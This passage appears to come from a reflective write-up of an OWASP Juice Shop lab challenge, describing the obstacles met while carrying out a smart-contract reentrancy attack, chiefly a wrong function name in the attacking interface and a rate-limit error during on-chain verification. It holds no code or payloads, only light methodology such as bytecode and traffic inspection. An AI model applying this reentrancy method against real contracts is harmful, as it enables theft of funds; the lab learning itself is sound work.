The most significant technical obstacle during exploitation was discovering the correct function signature for the victim contract. The attacking contract initially used `deposit` as the function name in the interface, which caused every attack transaction to silently fail because the EVM was generating the wrong function selector. Resolving this required going through the raw bytecode of the deployed victim contract, searching Etherscan for the deployed address, and attempting Burp Suite interception of the wallet page's network traffic. The correct function name `ethdeposit` was eventually confirmed through the application's JavaScript source, a discovery that unlocked the entire attack chain. This experience illustrated an important lesson: in blockchain penetration testing, interface mismatch is a silent failure mode that provides no error feedback and can consume significant time.

A secondary and unexpected obstacle emerged after the attack transaction successfully confirmed on-chain. The Juice Shop challenge refused to register as complete due to a 429 rate limiting error when MetaMask attempted to connect to the wallet page for verification. This was caused by the local Juice Shop instance exhausting request limits on the external Ethereum blockchain node it uses for on-chain verification, which was entirely outside the attacker's control. Working around this required patience and repeated connection attempts until the rate limit window reset. Despite these compounding obstacles, every barrier was resolved methodically, and the experience produced genuine and durable understanding of reentrancy attack theory, Ethereum bytecode analysis, Web3 toolchain configuration, and the real-world friction inherent in blockchain-based penetration testing.

